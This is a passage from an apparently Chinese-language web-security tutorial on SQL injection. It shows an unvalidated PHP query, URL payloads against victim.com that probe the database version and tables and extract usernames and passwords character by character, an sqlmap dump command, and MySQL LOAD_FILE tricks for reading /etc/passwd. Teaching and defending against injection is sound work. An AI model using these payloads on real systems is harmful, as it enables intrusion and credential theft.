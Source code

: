 # 1.注入攻击

> Akamai 在 2019 年研究表明 65.1% 的 Web 应用程序攻击来自 SQL 注入

SQL 注入的两种分类：

1. 盲注：在服务器没有错误回显时完成的注入攻击。
2. Timing Attack：利用 MySQL 的 `BENCHMARK()` 函数。

## 数据库攻击技巧

### 常见攻击技巧

我们假设后台的服务存在这样一个没有校验的语句：

```php
$id = $_GET["id"];
$sql = "select title,description,body from items where id=".$id;
```

SQL 注入时基于数据库的一种攻击。不同的数据库有着不同的功能、不同的语法和函数：

1.  SQL 注入可以猜解出数据库的对应版本，比如下面这段 Payload，如果 MySQL 的版本是 4，则会返回 TRUE：

    ```sql
    http://victim.com/index.php?id=5 and substring(@@version, 1, 1)=4
    ```
2.  测试表名 `admin` 是否存在，列名 `passwd` 是否存在：

    ```sql
    http://victim.com/index.php?id=5 union all select 1,2,3 from admin

    http://victim.com/index.php?id=5 union all select 1,2,passwd from admin
    ```
3.  想要进一步猜解除 `username` 和 `password` 具体的值，可以通过判断字符的范围读出来：

    ```sql
    http://victim.com/index.php?id=5 and ascii(substring((select concat(username, 0x3a, passwd) from users limit 0,1),1,1))>64
    ....
    ```

    可见利用一个 `sql` 注入的过程非常繁琐，所以非常有必要使用一个自动化的工具来帮助完成整个过程，`sqlmap` 就是一个非常好的自动注入工具：

    ```bash
    python sqlmap.py -u "http://victim.com.index.php?id=5" --dump -T users
    ```
4.  在 MySQL 中，可以通过 `LOAD_FILE()` 读取文件系统，并且通过 `INTO DUMPFILE` 写入本地文件。另外，如果要将文件读出后，再把结果返还给攻击者，可以使用下面的技巧：

    ```sql
    create table potatoes(line BLOB);
    select 1,1,hex(LOAD_FILE('/etc/passwd')),1,1 into DUMPFILE '/tmp/potatoes';
    LOAD DATA INFILE '/tmp/potatoes' into table potatos;
    ```
